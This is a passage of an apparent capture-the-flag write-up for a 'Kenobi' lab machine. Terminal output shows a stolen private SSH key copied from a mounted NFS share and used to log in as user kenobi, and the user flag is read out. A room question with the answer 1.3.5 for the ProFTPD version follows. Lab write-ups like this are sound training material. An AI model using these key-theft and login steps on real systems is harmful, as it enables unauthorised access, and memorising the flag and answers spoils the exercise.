 ```bash
drwxr-xr-x  3 root root  4096 Nov 29 06:41 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root lxd   4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  2 root root  4096 Jan 29  2019 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt  6 root root  4096 Nov 29 06:39 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www
root@ip-10-10-91-199:~# 
root@ip-10-10-91-199:~# cp /mnt/kenobiNFS/tmp/id_rsa .
root@ip-10-10-91-199:~# chmod 600 id_rsa
root@ip-10-10-91-199:~# ssh -i id_rsa kenobi@10.10.167.120
The authenticity of host '10.10.167.120 (10.10.167.120)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.167.120' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ 
kenobi@kenobi:~$ ls
share  user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

## ANSWER THE FOLLOWING:
----

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.
1.What is the version?
>>1.3.5
